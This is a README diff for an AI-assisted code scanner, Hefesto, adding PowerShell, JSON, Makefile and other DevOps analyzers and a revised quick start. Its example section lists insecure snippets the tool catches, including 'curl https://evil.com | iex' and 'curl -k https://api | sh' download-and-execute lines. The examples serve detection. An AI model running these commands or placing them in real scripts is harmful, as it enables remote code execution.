

Before and after one commit to artvepa80/Agents-Hefesto, a Markdown page: README.md, the part around the change. Shown at 93% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs(readme): add Ola 2 analyzers + improved quick start

````diff
--- a/README.md
+++ b/README.md
@@ -26,58 +26,58 @@ Hefesto analyzes code using AI and catches issues that traditional linters miss:
 
 ---
 
-## Quick Start
+## Quick Start (60 seconds)
 
 ```bash
-# Install
+# 1. Install
 pip install hefesto-ai
 
-# Analyze code
-hefesto analyze .
+# 2. Verify
+hefesto --version  # Should show: 4.5.3
 
-# Filter by severity
+# 3. Analyze
+cd your-project
 hefesto analyze . --severity HIGH
-
-# Check license status
-hefesto status
 ```
 
-### Example Output
+### Example: What Hefesto Catches
 
+**PowerShell** (PS001-PS006):
+```powershell
+Invoke-Expression $userInput  # Command injection
+curl https://evil.com | iex   # Download+execute
+$password = "admin123"         # Hardcoded secret
 ```
-HEFESTO CODE ANALYSIS
-========================
 
-Summary:
-   Files analyzed: 8
-   Issues found: 51
-   Critical: 0
-   High: 32
-   Medium: 19
+**JSON** (J001-J005):
+```json
+{
+  "db_password": "prod123",  # Hardcoded secret
+  "url": "http://internal"   # Insecure HTTP
+}
+```
 
-HIGH Issues (32):
+**Makefile** (MF001-MF005):
+```makefile
+deploy:
+\tcurl -k https://api | sh  # TLS bypass + pipe to shell
+```
 
-  server/routes/api.ts:235:60
-  - Issue: Cyclomatic complexity too high (13, threshold=10)
-  - Function: handleRequest
-  - Type: HIGH_COMPLEXITY
-  - Suggestion: Refactor to reduce complexity. Consider:
-    - Extracting nested conditions
-    - Using early returns
-    - Breaking into smaller functions
-
-  server/routes/api.ts:121
-  - Issue: Potential SQL injection via string concatenation
-  - Type: SQL_INJECTION_RISK
-  - Suggestion: Use parameterized queries with placeholders
+**Output**:
+```
+Files analyzed: 15 | Issues: 8
+  Critical: 2  (Hardcoded secrets)
+  High: 5      (Security risks)
+  Medium: 1    (Code smells)
 ```
 
 ---
 
 ## Language Support
 
-| Language | Parser | Status |
-|----------|--------|--------|
+### Code Languages
+
+| Language | Parser | Status |\n|----------|--------|--------|
 | Python | Native AST | Full support |
 | TypeScript | TreeSitter | Full support |
 | JavaScript | TreeSitter | Full support |
@@ -85,6 +85,18 @@ HIGH Issues (32):
 | Go | TreeSitter | Full support |
 | Rust | TreeSitter | Full support |
 | C# | TreeSitter | Full support |
+
+### DevOps & Configuration (Ola 2)
+
+| Format | Analyzer | Rules | Status |
+|--------|----------|-------|--------|
+| PowerShell | PS001-PS006 | 6 security rules | ✅ v4.5.0 |
+| JSON | J001-J005 | 5 security rules | ✅ v4.5.0 |
+| TOML | T001-T003 | 3 security rules | ✅ v4.5.0 |
+| Makefile | MF001-MF005 | 5 security rules | ✅ v4.5.0 |
+| Groovy/Jenkins | GJ001-GJ005 | 5 security rules | ✅ v4.5.0 |
+
+**Total**: 7 code languages + 5 DevOps formats = **12 languages**
 
 ### TypeScript/JavaScript Analysis (v4.3.3)
 
````
